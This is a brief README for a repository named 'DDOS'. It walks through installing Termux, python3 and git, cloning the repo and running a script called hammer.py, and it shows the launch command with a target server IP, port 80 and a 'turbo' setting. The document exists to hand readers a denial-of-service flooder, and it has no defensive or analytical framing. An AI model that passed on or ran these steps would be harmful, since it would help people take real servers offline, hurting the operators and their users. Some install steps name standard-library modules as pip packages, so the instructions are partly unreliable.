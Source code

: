 # DDOS
# How to run?
# Download Termux And Follow Steps :
# $ pkg install python3
# $ pkg install git
# $ git clone https://github.com/TobzCyberTeam/DDOS
# $ pip3 install queue
# $ pip3 install optparse
# $ python3 hammer.py
# $ python3 hammer.py -s (server ip) -p (port 80) -t (turbo 135)

# By Rapid7
# Edited By TobzCyberTeam
# Owner : Tobz
